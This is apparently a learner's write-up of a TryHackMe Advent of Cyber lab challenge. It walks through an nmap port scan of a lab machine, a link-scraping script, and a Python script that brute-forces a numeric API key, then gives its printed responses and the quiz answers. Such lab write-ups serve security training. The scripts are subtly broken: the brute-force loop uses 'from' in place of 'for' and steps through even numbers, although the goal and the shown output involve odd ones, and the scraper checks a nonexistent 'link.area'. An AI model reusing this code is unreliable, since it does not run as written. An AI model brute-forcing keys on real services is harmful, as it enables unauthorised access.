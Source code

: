 DAY 16 - THERE IS A PYTHON IN MY STOCKING! [SCRIPTING]
----

# STORY :
----

>>Oh no! Santa 🎅 has taken off, leaving you -- the faithful elves behind! Can you help find Santa's location?

>>Luckily, the elves are OSINT masters and remember a thing or two. Specifically, they remember:

   * Santa has a webpage at MACHINE_IP/static/index.html to help lost elves find their way home. Santa never told the elves what port number the webserver is on. Can you find out?!
   * This webpage has a link somewhere on it, hidden away so anyone that isn't an elf can't find it.
   * Santa's Sled has an API we can talk too. The key for the API is between 0 and 100, and it's an odd number. But be careful! After an unknown number of attempts, Santa's Sled will ban your IP address. 

>>Deploy the machine that is running Santa's Sled and allow a couple of minutes for the target (MACHINE_IP) to start up. Using your Python skills from Day 15 to find the correct key for the API.

----

# MY DOCUMENTATION :
----

>>USING Nmap TO CHECK FOR THE OPEN PORTS. 

```bash
root@ip-10-10-13-7:~# nmap 10.10.154.72 

Starting Nmap 7.60 ( https://nmap.org ) at 2021-11-13 05:52 GMT
Nmap scan report for ip-10-10-154-72.eu-west-1.compute.internal (10.10.154.72)
Host is up (0.00080s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:08:14:90:97:39 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.79 seconds
```

>>THE WEBSITE HOSTED IN THE SERVER DISPLAYS THESE CONTENTS.

```WEB-CONTENTS
Santa's Tracking System
Are you an Elf that Santa has forgotten? Use this system to track Santa! Note: due to how many humans try to find where Santa is, the link is hidden on this webpage. You're going to have to manually click every single link. Or perhaps there is a way to find all the links as fast as a Python?

Important
notice
All deliiveries to Skidy for TryHackMe jumpers are to be stopped. That man has asked for 613 on the premise that they are the softest jumper in the world. Please, we need to share them out.
Category

    Lorem ipsum dolor sit amet
    Vestibulum errato isse
    Lorem ipsum dolor sit amet
    Aisia caisia
    Murphy's law
    Flimsy Lavenrock
    Maven Mousie Lavender

Category

    Labore et dolore magna aliqua
    Kanban airis sum eschelor
    Modular modern free
    The king of clubs
    The Discovery Dissipation
    Course Correction
    Better Angels

Category

    Objects in space
    Playing cards with coyote
    Goodbye Yellow Brick Road
    The Garden of Forking Paths
    Future Shock

Bulma Templates MIT license
```

>>WE CAN ALSO USE GREP "api" TO NARROW DOWN THE RESULTS.

```py [link extraction script]
from bs4 import BeautifulSoup
import requests 

# replace testurl.com with the url you want to use.
# requests.get downloads the webpage and stores it as a variable
html = requests.get('http://GIVEN_IP:PORT_NUMBER') 

# this parses the webpage into something that beautifulsoup can read over
soup = BeautifulSoup(html.text, "lxml")
# lxml is just the parser for reading the html 

# this is the line that grabs all the links # stores all the links in the links variable
links = soup.find_all('a') 

for link in links:
    # prints each links
    if "href" in link.area: 
        print (link["href"])
```

>>THIS IS THE API KEY BRUTEFORCER SCRIPT

```py
#Importng requests lib
import requests 

#Here we created a for loop which takes api-key in range of (0 to 100) that 2 represents odd number.
from api_key in range (0,100,2):
	#Creating a variable html and getting the request from the url we give and finally giving area with {}.   
    html = requests.get(f'http://GIVEN_IP:PORT_NUMBER/api/{api_key}') 
    #Printing it out 
    print (html.text)
```
>>THIS IS THE RESPONSE AFTER RUNNING THE SCRIPT.

```bash
root@ip-10-10-13-7:~# python3 script.py 
{"item_id":1,"q":"Error. Key not valid!"}
{"item_id":3,"q":"Error. Key not valid!"}
{"item_id":5,"q":"Error. Key not valid!"}
{"item_id":7,"q":"Error. Key not valid!"}
{"item_id":9,"q":"Error. Key not valid!"}
{"item_id":11,"q":"Error. Key not valid!"}
{"item_id":13,"q":"Error. Key not valid!"}
{"item_id":15,"q":"Error. Key not valid!"}
{"item_id":17,"q":"Error. Key not valid!"}
{"item_id":19,"q":"Error. Key not valid!"}
{"item_id":21,"q":"Error. Key not valid!"}
{"item_id":23,"q":"Error. Key not valid!"}
{"item_id":25,"q":"Error. Key not valid!"}
{"item_id":27,"q":"Error. Key not valid!"}
{"item_id":29,"q":"Error. Key not valid!"}
{"item_id":31,"q":"Error. Key not valid!"}
{"item_id":33,"q":"Error. Key not valid!"}
{"item_id":35,"q":"Error. Key not valid!"}
{"item_id":37,"q":"Error. Key not valid!"}
{"item_id":39,"q":"Error. Key not valid!"}
{"item_id":41,"q":"Error. Key not valid!"}
{"item_id":43,"q":"Error. Key not valid!"}
{"item_id":45,"q":"Error. Key not valid!"}
{"item_id":47,"q":"Error. Key not valid!"}
{"item_id":49,"q":"Error. Key not valid!"}
{"item_id":51,"q":"Error. Key not valid!"}
{"item_id":53,"q":"Error. Key not valid!"}
{"item_id":55,"q":"Error. Key not valid!"}
{"item_id":57,"q":"Winter Wonderland, Hyde Park, London."}
{"item_id":59,"q":"Error. Key not valid!"}
{"item_id":61,"q":"Error. Key not valid!"}
{"item_id":63,"q":"Error. Key not valid!"}
{"item_id":65,"q":"Error. Key not valid!"}
{"item_id":67,"q":"Error. Key not valid!"}
{"item_id":69,"q":"Error. Key not valid!"}
{"item_id":71,"q":"Error. Key not valid!"}
{"item_id":73,"q":"Error. Key not valid!"}
{"item_id":75,"q":"Error. Key not valid!"}
{"item_id":77,"q":"Error. Key not valid!"}
{"item_id":79,"q":"Error. Key not valid!"}
{"item_id":81,"q":"Error. Key not valid!"}
{"item_id":83,"q":"Error. Key not valid!"}
{"item_id":85,"q":"Error. Key not valid!"}
{"item_id":87,"q":"Error. Key not valid!"}
{"item_id":89,"q":"Error. Key not valid!"}
{"item_id":91,"q":"Error. Key not valid!"}
{"item_id":93,"q":"Error. Key not valid!"}
{"item_id":95,"q":"SANTA PROTECTION MECHANISM ACTIVATED."}
{"item_id":97,"q":"SANTA PROTECTION MECHANISM ACTIVATED."}
{"item_id":99,"q":"SANTA PROTECTION MECHANISM ACTIVATED."}

```

----

# ANSWER THE FOLLOWING :
----

What is the port number for the web server?
>>80

Without using enumerations tools such as Dirbuster, what is the directory for the API?  (without the API key)
>>/api/

Where is Santa right now?
>>Winter Wonderland, Hyde Park, London

Find out the correct API key. Remember, this is an odd number between 0-100. After too many attempts, Santa's Sled will block you. 
To unblock yourself, simply terminate and re-deploy the target instance (MACHINE_IP)
>>57

----